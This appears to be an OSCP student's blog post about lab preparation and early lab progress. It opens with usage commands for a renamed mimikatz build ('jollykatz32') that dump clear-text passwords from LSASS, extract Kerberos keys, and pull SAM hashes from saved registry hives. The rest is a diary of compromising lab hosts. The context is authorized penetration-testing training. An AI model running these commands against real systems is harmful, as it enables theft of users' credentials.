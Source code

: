 #### How to use:

{% highlight shell_session %}
-- dump clear-text passwords from LSASS process:
C:\\> jollykatz32.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"

-- Steal users credentials until they reset their passwords:
C:\\> jollykatz32.exe "privilege::debug" "sekurlsa::ekeys" "exit"

-- Dump LM and NTLM hashes from SAM:
C:\\> jollykatz32.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"

-- read SAM file from /repair or ntbackup files:
C:\\> reg save HKLM\\SYSTEM SystemBkup.hiv
C:\\> reg save HKLM\\SAM SamBkup.hiv
(Or use Volume Shadow Copy / BootCD to backup these files or get them from the repair folder![](http://cdn.techexams.net/images/smilies/icon_smile.gif "Smile")
C:\\Windows\\System32\\config\\SYSTEM
C:\\Windows\\System32\\config\\SAM
C:\\> jollykatz32.exe "lsadump::sam SystemBkup.hiv SamBkup.hiv" "exit"
{% endhighlight %}

------------------

My lab access starts upcoming Sunday at 10:00 AM Brisbane time, in two days! I feel excited like I was as a kid a few nights before Christmas. The sneak peak during the VPN test confirmed my methodology works for at least one host, and this has provided me with confidence to build on my initial methodology.

Over the last few days I've mostly been working on windows scripts targeting looting and privilege escalation. I haven't put any preparation time in Linux, databases or web applications, so I'll have to get up to speed during lab time. It is my intention to share the scripts I create during my OSCP lab adventures once I confirm they work in the labs.

"How do I ensure that I don't spoil any of the fun for other OSCP students while still sharing my experience in a meaningful and interesting way?". This is a question that I haven't been able to answer yet, but as I move forward into the labs, I am sure I'll find a good balance between providing useful information and spoiling.

Just a quick write up that I've started, the email was received at exactly 10:00 AM this morning, so it must be an automatically scheduled tool that sends the email, no complaints here I was happy to see the email. Username and password to connect via OpenVPN are the same as during the connection test, so if people don't get the email at the right time (due to spam filters, or not being able to access their email account for some reason) then they can probably just login with the same details they used to test the connection. IP hasn't changed either, I still have the same dynamic IP I got when I tested, so that saves me time recompiling some of my scripts.

I took down Alice today. And I reset Bob and had another go at him since I forgot to get the "proof.txt" files. I took down Bob2 as well but that's not really saying much as they are copies. ( there are copies of "popular" machines so you can use either the main one of the secondary, very nice of offset). The proof.txt key is different though, so since I was going for 100% of the labs, I'll need to get all the machines AND their secondaries.

Resetting hosts is a matter of 10 seconds and the image has been reset. This is needed for computers that rely on "risky" exploits like... well when I crashed Alice. You get 8 resets per day, so use them at will.
